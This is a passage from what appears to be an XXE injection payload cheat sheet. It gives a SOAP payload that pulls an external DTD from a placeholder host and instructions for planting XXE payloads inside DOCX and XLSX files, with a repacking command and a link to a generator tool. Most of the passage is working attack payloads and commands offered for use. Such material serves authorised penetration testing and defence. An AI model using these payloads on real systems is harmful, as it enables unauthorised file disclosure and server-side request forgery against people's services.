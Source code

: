 ### XXE Inside SOAP

```xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### XXE Inside DOCX file

Format of an Open XML file (inject the payload in any .xml file):

- /_rels/.rels
- [Content_Types].xml
- Default Main Document Part
  - /word/document.xml
  - /ppt/presentation.xml
  - /xl/workbook.xml

Then update the file `zip -u xxe.docx [Content_Types].xml`

Tool : https://github.com/BuffaloWill/oxml_xxe

```xml
DOCX/XLSX/PPTX
ODT/ODG/ODP/ODS
SVG
XML
PDF (experimental)
JPG (experimental)
GIF (experimental)
```

### XXE Inside XLSX file

Structure of the XLSX:

```ps1
$ 7z l xxe.xlsx
[...]
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00 .....          578          223  _rels/.rels
2021-10-17 15:19:00 .....          887          508  xl/workbook.xml
2021-10-17 15:19:00 .....         4451          643  xl/styles.xml
2021-10-17 15:19:00 .....         2042          899  xl/worksheets/sheet1.xml
2021-10-17 15:19:00 .....          549          210  xl/_rels/workbook.xml.rels
2021-10-17 15:19:00 .....          201          160  xl/sharedStrings.xml
2021-10-17 15:19:00 .....          731          352  docProps/core.xml
2021-10-17 15:19:00 .....          410          246  docProps/app.xml
2021-10-17 15:19:00 .....         1367          345  [Content_Types].xml
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00              11216         3586  9 files
```
